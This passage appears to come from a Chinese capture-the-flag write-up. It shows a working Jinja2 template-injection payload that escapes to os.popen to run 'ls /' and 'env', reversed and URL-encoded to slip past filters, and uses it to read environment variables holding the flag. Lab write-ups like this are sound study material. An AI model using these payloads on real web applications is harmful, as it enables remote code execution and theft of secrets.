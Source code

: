 ```python
%7D%25%20rofdne%20%25%7B%0A%7D%25%20fidne%20%25%7B%0A%7D%25%20rofdne%20%25%7B%20%20%0A%7D%25%20fidne%20%25%7B%20%20%0A%7D%25%20fidne%20%25%7B%20%20%20%20%0A%7D%7D%20%29%27%29%28daer.%29%22/%20sl%22%28nepop.%29%22so%22%28__tropmi__%27%28%5D%27lave%27%5Bb%20%7B%7B%20%20%20%20%20%20%0A%7D%25%20%29%28syek.b%20ni%20%27lave%27%20fi%20%25%7B%20%20%20%20%0A%7D%25%20__ssalc__.%7D%7B%20%3D%3D%20__ssalc__.b%20fi%20%25%7B%20%20%0A%7D%25%20%29%28seulav.__slabolg__.__tini__.c%20ni%20b%20rof%20%25%7B%20%20%0A%7D%25%20%27sgninraw_hctac%27%20%3D%3D%20__eman__.c%20fi%20%25%7B%0A%7D%25%20%29%28__sessalcbus__.__esab__.__ssalc__.%5D%5B%20ni%20c%20rof%20%25%7B
```

在根目录下，疑似flag：

![image-20230326221009529](https://s2.loli.net/2023/03/26/xgSIMD3vT2UwnBE.png)

我们使用 `cat /flag.sh`  查看：

![image-20230326221111088](https://s2.loli.net/2023/03/26/T6kmGin74sOYSZe.png)

发现flag.sh被删除了，flag不在这里，然后赶紧查了一下`bash`中`export`的作用，发现好像是关于环境变量的，于是我们需要查询环境变量的值

> **env** 是一个 外部命令 ， 程序文件 /bin/env，列出所有 环境变量 及其赋值。 Linux 系统里的**env命令**可以显示当前用户的 环境变量 ，还可以用来在指定环境变量下执行其他命令。

查询可知，我们可以使用 **env**命令去查询环境变量，于是脚本如下：

```python
import urllib.parse

str = """{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("env").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}"""
print(urllib.parse.quote(str[::-1]))

输出：
%7D%25%20rofdne%20%25%7B%0A%7D%25%20fidne%20%25%7B%0A%7D%25%20rofdne%20%25%7B%20%20%0A%7D%25%20fidne%20%25%7B%20%20%0A%7D%25%20fidne%20%25%7B%20%20%20%20%0A%7D%7D%20%29%27%29%28daer.%29%22vne%22%28nepop.%29%22so%22%28__tropmi__%27%28%5D%27lave%27%5Bb%20%7B%7B%20%20%20%20%20%20%0A%7D%25%20%29%28syek.b%20ni%20%27lave%27%20fi%20%25%7B%20%20%20%20%0A%7D%25%20__ssalc__.%7D%7B%20%3D%3D%20__ssalc__.b%20fi%20%25%7B%20%20%0A%7D%25%20%29%28seulav.__slabolg__.__tini__.c%20ni%20b%20rof%20%25%7B%20%20%0A%7D%25%20%27sgninraw_hctac%27%20%3D%3D%20__eman__.c%20fi%20%25%7B%0A%7D%25%20%29%28__sessalcbus__.__esab__.__ssalc__.%5D%5B%20ni%20c%20rof%20%25%7B
```

我们执行一下：

![image-20230326221458673](https://s2.loli.net/2023/03/26/JlGOX7ECzxU23PY.png)

